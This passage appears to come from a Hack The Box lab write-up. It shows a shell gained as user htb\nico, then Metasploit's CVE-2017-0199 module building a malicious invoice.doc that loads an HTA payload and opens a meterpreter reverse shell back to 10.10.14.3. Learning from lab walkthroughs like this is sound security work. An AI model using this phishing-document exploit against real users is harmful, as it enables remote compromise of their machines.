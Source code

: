     C:\Windows\system32>whoami
    whoami
    htb\nico



Here's what that looks like (takes about 35 seconds):

![](/img/reel-shell.gif)

### Metasploit

Metasploit has a module for CVE-2017-0199,
`exploit/windows/fileformat/office_word_hta`, which takes generates the
document and takes care of the servers.

I'll set up the options for this module, and run it:



    msf5 exploit(windows/fileformat/office_word_hta) > options

    Module options (exploit/windows/fileformat/office_word_hta):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       FILENAME  invoice.doc      yes       The file name.
       SRVHOST   10.10.14.3       yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT   80               yes       The local port to listen on.
       SSL       false            no        Negotiate SSL for incoming connections
       SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH   default.hta      yes       The URI to use for the HTA file


    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
       LPORT     443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Microsoft Office Word


    msf5 exploit(windows/fileformat/office_word_hta) > run
    [*] Exploit running as background job 3.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 10.10.14.3:443
    [+] invoice.doc stored at /root/.msf4/local/invoice.doc
    [*] Using URL: http://10.10.14.3:80/default.hta
    [*] Server started.
